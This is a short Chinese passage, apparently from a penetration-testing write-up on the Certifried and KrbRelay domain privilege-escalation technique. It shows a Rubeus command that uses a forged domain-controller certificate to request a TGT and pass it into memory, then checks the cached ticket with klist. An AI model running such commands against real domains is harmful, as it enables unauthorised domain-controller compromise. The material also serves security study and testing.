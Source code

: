 将生成的 dc01.pfx 上传到目标主机并与 Rubeus 一起使用，申请域控制器账户的 TGT 票据并将其传递到内存中，如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:DC01$ /certificate:dc01.pfx /password:Passw0rd /ptt
```

![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519085254729.png)

执行 `klist` 命令可以看到，当前主机中已经缓存了域控制器账户的 TGT 票据，如下图所示。
